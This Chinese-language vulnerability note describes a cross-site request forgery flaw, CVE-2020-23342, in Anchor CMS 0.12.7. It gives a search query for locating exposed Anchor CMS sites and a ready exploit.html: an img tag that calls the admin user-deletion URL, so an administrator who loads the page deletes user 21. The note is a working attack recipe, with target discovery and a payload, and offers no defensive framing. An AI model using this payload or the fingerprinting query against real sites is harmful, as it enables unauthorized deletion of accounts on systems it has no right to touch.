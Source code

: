 # Anchor CMS 0.12.7 跨站请求伪造 CVE-2020-23342

## 漏洞描述

- https://packetstormsecurity.com/files/161048/anchorcms0127-xsrf.txt

## 网络测绘

```
"Anchor CMS" && body="themes/default/img/favicon.png"
```

## 漏洞复现

Anchor CMS使用Get方法进行敏感操作，可以使用exploit.html进行删除用户等操作。

**exploit.html：**

```html
<img src="http://target/anchor/index.php/admin/users/delete/21">
```

当管理员点击时删除ID为21的用户。